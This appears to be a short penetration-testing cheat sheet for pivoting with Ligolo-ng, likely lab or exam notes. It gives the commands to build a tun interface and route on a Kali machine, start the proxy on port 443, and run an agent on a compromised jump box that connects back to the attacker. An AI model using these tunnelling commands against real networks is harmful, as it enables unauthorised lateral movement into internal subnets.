 
on kali machine:

```bash
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
sudo ip route add $TARGET_IP_2ND.0/24 dev ligolo
./ligolo-proxy -selfcert -laddr 0.0.0.0:443
```

On connection / machine revert
```bash
sudo ip link delete ligolo
```

```shell
session
#select session
start
```

on jump box:
```bash
./ligolo-agent -connect $KALI_IP:443 -ignore-cert
```